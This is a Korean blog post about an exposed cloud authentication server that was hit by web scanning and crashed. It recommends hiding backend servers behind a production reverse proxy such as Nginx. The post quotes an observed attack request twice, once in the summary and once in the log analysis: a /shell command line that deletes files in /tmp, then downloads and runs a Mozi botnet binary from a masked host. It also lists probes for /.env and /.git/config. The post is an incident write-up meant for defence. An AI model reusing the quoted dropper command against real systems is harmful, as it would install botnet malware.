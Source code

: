 ```yaml
---
layout: post
title: "자잘한 도움말 #11 이름 모를 외국인들에게 공격당함"
description: ""
date: 2023-09-11 23:09:00 +0900
categories: [Micro]
---
```


## TL;DR

- 클라우드에 여러 서버 인스턴스를 열어 두었는데 수상한 접근 시도를 발견했다.

```
[Nest] 9095  - xx/xx/xxxx, x:xx:xx AM	[HttpFilter]
{
  "statusCode":404,
  "message":"Cannot GET /shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws",
  "error":"Not Found"
}
hostname: xx.xxx.xxx.xx, addr: ::ffff:xx.xx.xx.xx
```

- 요청을 직접 받을 서버만 공개하고 프록시를 사용하자.
  - 프론트엔드 프레임워크(Vue, React) 수준의 프록시 설정은 개발용 설정이다.
  - 배포 환경에서는 Nginx나 Apache 같은 웹 서버에서 프록시를 설정하자. 

----

## 이하 그리 중요하진 않은 내용들

### 험난한 정보의 바다

인터넷을 정보의 바다라고들 한다. 아마 한.. 30년 전 부터.. 이젠 좀 삭았지만 나는 이 표현을 좋아한다. 겉으로 보기엔 평화롭고 풍요로워 보이는 수면 아래에 이런 상어들이 득실거리고 있다는 사실을 잘 나타내거든.

![경쟁상대](https://i.postimg.cc/jshdKXWs/image.png)  
{: .center .w-3-quarter}

특히 해커맨, 그들은 우리의 IP를 언제든지 알고 있다. 오늘은 외부 접속이 가능하도록 공개된 서버를 구축하는 중 내가 겪었던 일에 대해 코멘트를 달아 보고자 한다. 쉘 환경에서 명령어를 입력한다던가, 코드를 수정한다던가, 운영체제의 설정 파일을 건드리는 내용은 아니다. 좀 더 이론 혹은 지침에 가까운 내용을 다뤄볼 계획이다. 

### 작년 이맘 때에...

당시 상황에 대해 먼저 정리해보자. 크게 5개 요소로 이루어진 서비스를 구축해야 하는 상황이었다. 그 중 하나는 사용자 로컬 PC에서 동작해야 하는 에이전트 프로그램이기 때문에 제외하고, 서버 인스턴스를 4개 제공받았다. 그림으로 그려볼까.

![대략적](https://i.postimg.cc/L4BGvRNM/briefarch.png)  
{: .center}

사실 각 서버 프로그램들을 하나의 인스턴스 안에 세팅해도 됐지만, 어쩌다보니 누추한 서비스에 비해 과분한 대접을 받게 되었다. 나는 각 인스턴스마다 필요한 포트를 담당자분께 요청하고, 외부에서 접근이 가능하도록 만들었다. 위 구성에 기반해 내가 생각한 서비스의 접근 형태는 다음과 같았다.

![뭔가 이상하겠지만 그래도 참아](https://i.postimg.cc/rpzLPpQH/first.png)  
{: .center}

비록 당시 각 구성요소들이 어떻게 동작하는지는 잘 몰랐지만, 이렇게 가정하고 서비스를 구축해 어쨌든 잘 동작하는 것을 확인하였다. 그리고 몇 주 뒤, **인증 서버가 사망하게 되는데...**

### 부검

로그인이 안된다는 연락을 받은 나는 인증 서버의 인스턴스에 접속해 서버가 죽은 것을 발견하였다. 로그엔 서버의 단말마가 이렇게 기록되어 있었다.

![단말마](https://i.postimg.cc/3JV8zpBV/image.png)  
{: .center .rounded-edge}

![단말마2](https://i.postimg.cc/mgsB0ZwR/image.png)  
조금 개선된 버전
{: .center .rounded-edge}

수많은 404 에러의 향연, 애초에 제한된 사용자에게만 공개될 서비스였는데 비이상적으로 많은 요청 실패가 기록되어 있다. 게다가 요청 경로들의 면면들이 모두 흉악하다.

- `/.env`
- `/.git/config`
- `/test`
- `/Api/GetCmd.aspx`
- `/shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws`

다행히 정보가 나간 정황은 보이지 않았다. 애초에 그럴 정보가 들어있지도 않은 상태였고. 감당할 수 없는 요청이 들어와 서버 프로세스가 사망했거나 인스턴스가 재부팅 되었을 것이다. 3개의 서버 중 한 서버에만 공격이 발견되었는데, 때마침 그 서버의 이름은 XXX-**auth**. 즉 로그인/유저정보 관리 등을 수행하는 인증 서버였다. 누가봐도 악의적인 공격.

![해커맨](https://i.postimg.cc/K80c5nhw/image.png)  
"당신의 IP를 언제든지 알고 있음"
{: .center}

내가 요청받은 요청 경로의 이름들을 살펴보자, 민감한 설정 파일들, 뭔가 동작하게 만들 수 있을 것 같은 명령어, 그 악명높은 `rm -rf`도 섞여있다. 동시에 `wget`으로 `Mozi.a`라는 파일을 받으려 하는 것도 볼 수 있다. 검색을 해보니 Mozi Botnet이라는 악성코드와 연관된 것으로 보인다. 아마 내 인스턴스를 좀비 PC로 만드려는 시도였겠지. 공격자는 미리 유명 클라우드들의 IP 테이블들을 준비, 80 포트가 443 포트 혹은 기타 자주 사용되는 포트로 요청을 보내는 스크립트를 구동 해놓았을 것이다. 그 중 Timeout이 아닌 응답을 주는 호스트들을 기록했을 것이고, 거기서 API 안내 페이지나 기타 정보를 통해 **Auth**라는 이름을 가진 내 인증 서버를 발견했을 것이다. 그리고 본인이 가진 좀비 PC들을 동원, 공격 대상을 향해 무차별적인 취약점 탐색 시도. 이런 공격 방법을 웹 스캐닝(Web Scanning)이라고 한다. GPT가 요약해준 설명을 보고 가자.

> 웹 스캐닝은 보안 감사나 취약점 평가 등을 위해 특정 웹 사이트나 애플리케이션을 타겟으로 하는 것입니다. 정적 및 동적 콘텐츠 분석, 입력 유효성 검사, SQL 인젝션 또는 XSS(크로스 사이트 스크립팅)와 같은 일반적인 보안 취약점 탐지 등에 초점을 맞춥니다. 주로 보안 전문가들 혹은 악의적인 해커들에 의해 사용되며, 이 경우 권한 없는 접근 시도 및 취약점 공격을 포함할 수 있습니다.


### 소 잃고 외양간 고치기

내가 생각한 서비스 구조

웹 어플리케이션에서 사용자 PC가 직접 리소스 서버, 인증 서버에 요청을 보낸다. -> 사실 리소스 서버, 인증 서버에 대한 접근은 제대로 인증된 사용자에게만 공개되어야 하는데, 포트를 열어놓은 순간 전세계의 모든 사용자에게 공개된 꼴.
0.0.0.0에서 255.255.255.255 까지 입력하면 내 서버 주소 찾을 수 있을걸? API에 대한 접근 제한은 코드상에 구현되어 있었지만, 요청 자체를 막을 순 없다. 서버는 요청을 받고 404나 403을 보내줄 뿐. 결과적으로 이 방법은 CORS를 위반. (http://54.34.23.1/ 웹 서버가 http://54.34.23.2/ 리소스를 사용하는 꼴이니까. 동일 출처가 아님)

개선방향

- Auth 서버 정상 로그를 확인했을 때 웹앱의 인증 요청은 모두 WAS의 주소를 통해 오게됨
- 클라우드 인스턴스 인프라 설정 시 분리된 인증 서버에 대하여, 굳이 인증서버의 포트를 공개할 필요가 없다.
  - WAS가 알아서 보낸다.


리소스 서버와 인증 서버를 숨겨야 한다. 이럴때 필요한 것이 프록시. 사실 프록시 설정은 프론트엔드에 되어 있었고, 내가 개발한게 아니었어서... 이부분에 대한 이해가 떨어졌던 것.
로드밸런서용 인스턴스를 하나 따로 빼놓거나, 프론트엔드용 웹 서버에 프록시를 설정해둘 수 있다. 프록시를 통해 백엔드 서버의 존재를 숨길 수 있고, 공격자의 가능한 공격 포인트를 줄일 수 있다.

(실습 넣자, Nginx의 리버스 프록시 설정)

### 번외1. 프론트엔드 프레임워크의 프록시와 실제 배포/운영용 프록시의 차이

프레임워크 레벨에서 제공해주는 프록시는 개발용. 대표적으로 CORS 문제를 해결하기 위해 사용한다. 물론 기능은 같기 때문에 운영단계에서도 사용 가능은 하다. 하지만 프론트엔드 웹 서버의 운영은 그런 프레임워크의 러너가 아니라 정적 파일을 빌드해서 nginx 등의 웹 서버를 통해 이루어져야 함.

  - Vue or React 자체 프록시 설정
    - 이건 개발용
    - 악명높은 CORS 문제 해결을 위해
      - 정확히는, CORS는 웹 환경에서 보안을 위해 필수적인 제한사항이고, 개발 중 이를 우회하기 위해 사용함.
  - 실제 서버 배포에선 webpack dev server가 아니라 빌드된 정적 파일들을 웹 서버를 통해 배포해야함. 여기에 별도 프록시 설정이 필요.
  
  - 프록시의 주된 목적 - 보안성, 캐싱, 로드밸런싱 등등

### 번외2. 웹 서버 vs 웹 어플리케이션 서버
이번 글 자료 찾는 중 헷갈리던 용어를 정리.

  - 번외 Web Server vs Web Application Server
    - React 같은 SPA 프레임워크로 만든 웹 페이지를 "웹 어플리케이션"이라고 부르는 것은 일반적
      - 애초에 Single Page Application이니까
    - 하지만 이걸 배포하는 서버 (일반적으로 Nginx)는 "웹 서버"라고 부름
      - 빌드된 정적 파일(HTML&JS&CSS)을 제공하니까
    - "웹 어플리케이션" 서버라기보단 웹 "어플리케이션 서버"로 생각하자.


## 내가 배운 것


- 내 정보를 무작정 공개하지 말자.
- 백문이 불여일견이랬다. 프록시를 왜 써야하는지, 애초에 프록시란게 뭔지 이름만 들어왔지 이해가 잘 안됐는데 직접 당해보니 알 것 같음.
- 동일 출처 정책이 존재하는 이유
- 웹 서버와 웹 어플리케이션 서버의 차이